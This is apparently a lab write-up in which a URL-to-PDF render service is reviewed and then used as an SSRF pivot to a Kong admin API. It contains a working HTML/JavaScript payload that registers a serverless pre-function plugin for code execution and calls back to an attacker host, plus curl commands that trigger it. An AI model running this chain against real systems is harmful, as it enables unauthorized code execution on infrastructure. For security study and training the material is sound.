

## The Render Service

The Render Service is an open-source _URL to PDF microservice_.
Visiting the GitHub source of the API, we see a warning:


The API is not supposed to be run publicly, however we have access to the service. We can now begin our source code review of the API, to find any potential RCE points.

We start by reviewing the src folder, the router.js file:


The code starts by importing various frameworks, such as express, and middleware, such as express-validator. It also imports 3 custom objects, from the /util/validation js file.
Reviewing the code further:


The code defines the router for GET requests to /api/render.
The first parameter to the render.get function is the URI path.
The 2nd parameter is a validation function that receives the getRenderSchema object.
Finally, the handler function is called(set by last parameter, render.getRender)

We can now move on to review validation function:


The code first starts off by importing the Joi library to define and validate the shapes of objects that will represent the body of an HTTP request.
The first variable is urlSchema that is a Joi string schema that requires the string to be a valid URL, with the the http or https schema

However, our main interest is the variable that was seen in the router.js file:


The _renderQuerySchema_ definition is also a Joi object.
The code defines a url parameter with the value of urlSchema.required() function.
These settings should prevent the application from processing a URL with the FILE protocol.
We can see that by making a request to the local /etc/passwd file:


The error thrown tells that a valid URL needs to be provided.

Now that we understand the validation, we can now move on to understanding the handler render.getRender function.
We first look for the function using a simple grep query:


however, we notice that:


The getRender function performs some additional validation by calling assertOptionsAllowed.
The options are then passed to the renderCore.render function.
We can study this function in the core/render-core.js file:


Starting off with the import statements, we see that the application uses puppeteer, which is a Node library for programmatically managing chrome.


The function first declares a browser object.
The createBrowser function, which creates a new browser process using puppeteer, sets the value of the object.
Then, a new page is created.
A page in this context can be thought of as single tab in the browser.
The code then defines several response handlers.
Finally, the function checks if HTML was submitted as part of the request. If not, the function loads the submitted URL in the browser.

At the end of the function:


If the requested output is a PDF, the function calls the _page.pdf_ function and sets the results in the data variable.
Otherwise, if the requested output format is HTML, the function instead calls page.evaluate, which returns the loaded page's innerHtml element.

## Code Execution

After a review on the documentation, we find that Kong admin plugins can be a good place to start.
For example, the serverless Functions plugin have an interesting warning in the documentation:

```txt
Warning: The pre-function and post-function serverless plugin allows anyone who can enable the plugin to execute arbitrary code. If your organization has security concerns about this, disable the plugin in your kong.conf file.
```

We can check if Kong has the plugin enabled:


According to the Kong documentation, we have to add a plugin to a service.
We could add the plugin to an existing service, but let's limit the exposure of it by creating a new service. A Service needs a Route for us to call it.
We will create a new HTML page with a JavaScript function that creates a service, adds a route to the service, then adds our Lua code as a "pre-function" plugin to the service.

We will use the following script:
 
```html
<html>
<head>
<script>

function createService() {
    fetch("http://172.16.16.2:8001/services", {
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"supersecret", "url": "http://127.0.0.1/"})
    }).then(function (route) {
      createRoute();
    });
}

function createRoute() {
    fetch("http://172.16.16.2:8001/services/supersecret/routes", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"paths": ["/supersecret"]})
    }).then(function (plugin) {
      createPlugin();
    });  
}

function createPlugin() {
    fetch("http://172.16.16.2:8001/services/supersecret/plugins", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"pre-function", "config" :{ "access" :[  REVERSE SHELL HERE ]}})
    }).then(function (callback) {
      fetch("http://192.168.118.3/callback?setupComplete");
    });  
}
</script>
</head>
<body onload='createService()'>
<div></div>
</body>
</html>
```

Here, the first function, sends a POST request to create a new service named "supersecret".
The function then calls the 2nd createRoute() function, which adds the "supersecret" route to the new service.
It then calls the 3rd createPlugin() function, which adds our Lua payload as a plugin on the service.
Finally, it makes a GET request to our Kali host.

Now that our payload is ready, we will execute it with the following IP:

```bash
curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://<attacker IP>/rce.html"}' http://apigateway:8000/files/import
```

We know our request is successful as we get a callback on our apache server:


Finally, we make a curl request to our new malicious plugin:
```bash
curl -i  http://apigateway:8000/supersecret
```

And get the RCE:

